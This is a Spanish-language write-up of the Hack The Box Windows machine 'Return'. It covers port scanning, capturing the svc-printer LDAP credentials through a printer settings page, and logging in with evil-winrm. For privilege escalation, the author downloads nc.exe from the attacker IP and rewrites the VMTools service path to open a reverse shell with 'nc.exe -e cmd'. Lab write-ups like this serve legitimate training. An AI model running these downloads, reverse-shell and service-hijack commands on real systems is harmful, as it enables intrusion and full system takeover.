# Return

## Información General

<h3>Dificultad:  </h3>

<h3>Sistema operativo: Windows </h3>

<h3>Vulnerabilidad explotada. Samba and vmtools explotation </h3>

<h3>Fecha de resolución: 05/08/2025</h3>

<h3>Enlace: <a href="https://app.hackthebox.com/machines/Return" target="_blank">Return</a></h3>

### *Leer el documentro en Ingles* <a href="return_english.md">return</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **10.10.11.108**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **return**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 return
```

**El ttl es 128. Por tanto, es Window**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn return
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service       | Version                                 |
| --------- | ------------- | --------------------------------------- |
| 53        | domain        | Simple DNS Plus                         |
| 80        | http          | Microsoft IIS httpd 10.0                |
| 88        | kerberos-sec  | Microsoft Windows Kerberos              |
| 135       | msrpc         | Microsoft Windows RPC                   |
| 139       | netbios-ssn   | Microsoft Windows netbios-ssn           |
| 389       | ldap          | Microsoft Windows Active Directory LDAP |
| 445       | microsoft-ds? |                                         |
| 464       | kpasswd5?     |                                         |
| 593       | ncacn_http    | Microsoft Windows RPC over HTTP 1.0     |
| 636       | tcpwrapped    |                                         |
| 3268      | ldap          | Microsoft Windows Active Directory LDAP |
| 3269      | tcpwrapped    |                                         |
| 5985      | http          |                                         |
| 9389      | mc-nmf        | .NET Message Framing                    |
| 47001     | http          | Microsoft HTTPAPI httpd 2.0             |
| 49664     | msrpc         | Microsoft Windows RPC                   |
| 49665     | msrpc         | Microsoft Windows RPC                   |
| 49666     | unknown       |                                         |
| 49667     | msrpc         | Microsoft Windows RPC                   |
| 49671     | unknown       |                                         |
| 49674     | ncacn_http    | Microsoft Windows RPC                   |
| 49675     | unknown       |                                         |
| 49679     | msrpc         | Microsoft Windows RPC                   |
| 49682     | msrpc         | Microsoft Windows RPC                   |
| 49697     | unknown       |                                         |
| 64328     | msrpc         | Microsoft Windows RPC                   |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn return
```

<p align="center"> 

</p>

<div align="center">

| Open Port | SERVICE      | STATE  |
| --------- | ------------ | ------ |
| 53/udp    | domain       | Open   |
| 88/udp    | kerberos-sec | Open   |
| 123/udp   | ntp          | Open   |
| 389/udp   | ldap         | Open   |
| 10080/udp | amanda       | Closed |

</div>

A continuación, vamos a intentar detectar alguna vulnerabilidad con nmap con el siguiente comando:

```
nmap --script smb-vuln* -p445 <ip de la victima> -Pn
```

<p align="center"> 

</p>

No hemos conseguido nada :(

## Exploración

### SMBMAP

```
sudo apt install python3.13-venv
python3 -m venv venv
source venv/bin/activate
pip install smbmap
smbmap -H return 
```

<p align="center"> 

</p>

He intentando conectarme de manera anónima pero no lo conseguí. **Me haría falta conseguir usuario y contraseña.**

### LinkFinder

```
cd LinkFinder 
python3 linkfinder.py -d -i http://return/ -o cli  
```

<p align="center"> 

</p>

Nada interesante.

### Fuzzing web

```
gobuster dir -u http://return -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

```
http://return/
```

<p align="center"> 

</p>

Solo funciona el boton **Settings**

```
http://return/settings.php
```

<p align="center"> 

</p>

Donde pone **Server Addres** debemos poner nuestra direccion ip que sería **10.10.14.36** y lo demás lo dejamos igual. Luego, preparamos el puerto de escucha con este comando **nc -lvnp 389** y le damos update

<p align="center"> 

</p>

**Usuario**: svc-printer\
**Contraseña**: 1edFg43012!! 

Obtenida.

Ahora sabiendo la contraseña, si podemos llevar acabo **SMBMAP**

```
smbmap -H return -u 'svc-printer' -p '1edFg43012!!'
```

<p align="center"> 

</p>

El resultado muestra que la autenticación es correcta y que puedes acceder a varios recursos compartidos **SMB (ADMIN$, C$, IPC$, NETLOGON, SYSVOL)**, aunque solo con permisos de lectura.

## Explotación

### Crackmapexec

Con esta heramienta tambien podemos averiguar con que nos enfretamos

```
crackmapexec smb return
```

Basicamente nos dice que el dominio se llama PRINTER, Windows 10  y su dominio es return.local y que el smb está firmado

```
crackmapexec smb return -u 'svc-printer' -p '1edFg43012!!'
```

<p align="center"> 

</p>

Estás autenticándote con éxito contra un servidor Windows llamado PRINTER

Ahora con estas credenciales yo puedo conectarme por administración remota de Windows  (winrm)

```
crackmapexec smb winrm -u 'svc-printer' -p '1edFg43012!!'
```

<p align="center"> 

</p>

Comprobamos que sí nos podemos conectar (**Nos podemos conectar porque nos pone Pwn3d!)**. A continuación, ahora vamos a usar la herramienta **evil-winrm**

```
evil-winrm -i return -u 'svc-printer' -p '1edFg43012!!'
```

<p align="center"> 

</p>

**Estamos dentro**

```
cd Desktop
type user.txt
```

<p align="center"> 

</p>

## Explotación Posterior

### Escalada de Privilegios

Para llevar a cabo la escalada de privilegio, tengo que hacer lo siguiente:

Descargar netcat para Window, ya que mi máquina atacante es windows

```
https://eternallybored.org/misc/netcat/
```

<p align="center"> 

</p>

Otra forma de conseguir el binario es escribir este comando 

```
locate nc.exe 
```

*/usr/share/windows-resources/binaries/nc.exe*

**Conseguimos el instalador**

Luego compartirlo a mi máquina victima

```
python3 -m http.server 80
```

<p align="center"> 

</p>

Nos centraremos en compartir el archivo **nc64.exe**

En nuestra máquina víctima lo descargamos

```
curl 10.10.14.36/nc64.exe -o nc.exe
```

La ip 10.10.14.36 es la VPN de HTB para aclarar dudas.

<p align="center"> 

</p>

Luego uso este comando:

```
services
```

<p align="center"> 

</p>

Tras investigar, descubro que el único archivo modificable es **vmtools**

```
sc.exe config VMTools binPath='C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.36 4444'
```

Con el comando sc.exe nos ayudaremos a modificar los archivos Windows que en este caso que el que nos deja modificar es **vmtools** para conseguir ser **root**

Luego preparamos el puerto de escucha en una terminal aparte

```
nc -lvp 4444
```

En la otra terminal, escribimos el siguiente comando:

```
sc.exe start VMtools
```

Luego hubo una vez entrado, para localizar la red flag de root, sería:

```
cd /Users/Administrator/Desktop
type root.txt 
```

<p align="center"> 

</p>

Hay que hacerlo rápido, ya que la sesión, se cierra muy rápido.

**Máquina terminada**

## Conclusión

En esta máquina llamada **Return** de **HTB** me encontré con uno de mis mayores retos: la intrusión en un sistema Windows.  

Al enumerar los puertos, intuía que el ataque se centraría en **Samba**, algo que la experiencia previa me hacía sospechar.  

Me resultó bastante interesante la forma de obtener la contraseña y, posteriormente, acceder al sistema mediante **evil-winrm**.

La verdadera complicación vino con la escalada de privilegios; al principio no lograba entenderla, pero tras analizar diferentes métodos, descubrí que la clave estaba en aprovechar el archivo **vmtools**, modificando los permisos del usuario con el comando **sc.exe** y sus parámetros adecuados.

En resumen, fue una máquina bastante curiosa que me enseñó una nueva forma de explotar el puerto **Samba**.
